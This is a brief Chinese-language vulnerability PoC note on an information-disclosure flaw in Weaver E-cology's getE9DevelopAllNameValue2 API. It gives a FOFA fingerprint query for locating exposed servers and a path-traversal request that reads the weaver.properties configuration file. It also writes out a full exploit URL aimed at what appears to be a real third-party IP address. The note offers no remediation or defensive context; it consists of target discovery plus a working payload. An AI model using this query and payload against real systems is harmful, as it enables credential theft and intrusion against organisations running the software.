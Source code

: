 # 泛微E-cology getE9DevelopAllNameValue2 敏感信息泄露

    ## fofa

```
body="/js/ecology8" || body="wui/common/css/w7OVFont_wev8.css" || (body="weaver" && body="ecology") || (header="ecology_JSessionId" && body="login/Login.jsp") || body="/wui/index.html" || body="jquery_wev8"
```

## poc

```
api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_%2f%2e%2e%2fweaver%2eproperties
```

http://112.47.63.233:82/api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_%2f%2e%2e%2fweaver%2eproperties

